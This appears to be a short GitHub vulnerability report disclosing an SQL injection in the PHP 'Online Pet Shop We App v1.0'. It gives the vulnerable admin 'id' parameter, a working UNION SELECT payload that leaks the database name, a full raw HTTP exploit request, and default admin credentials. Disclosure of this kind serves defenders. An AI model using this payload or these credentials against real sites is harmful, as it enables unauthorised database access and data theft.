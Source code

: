 # Online Pet Shop We App v1.0 by oretnom23 has SQL injection

BUG_Author: Cokutau-CH

Login account: admin/admin123 (Super Admin account)

vendors: https://www.sourcecodester.com/php/14839/online-pet-shop-we-app-using-php-and-paypal-free-source-code.html

The program is built using the xmapp-php8.1 version

Vulnerability File: /pet_shop/admin/?page=orders/view_order&id=

Vulnerability location: /pet_shop/admin/?page=orders/view_order&id=,id

dbname=pet_shop_db,length=11

[+] Payload: /pet_shop/admin/?page=orders/view_order&id=-2%27%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ // Leak place ---> id

```sql
GET /pet_shop/admin/?page=orders/view_order&id=-2%27%20union%20select%201,2,database(),4,5,6,7,8,9,10--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=39d40bnp4n4treun1nco3uocnm
Connection: close
```

![image](https://user-images.githubusercontent.com/54017627/184599361-25bb5292-884b-4b65-849e-1f776777bd12.png)

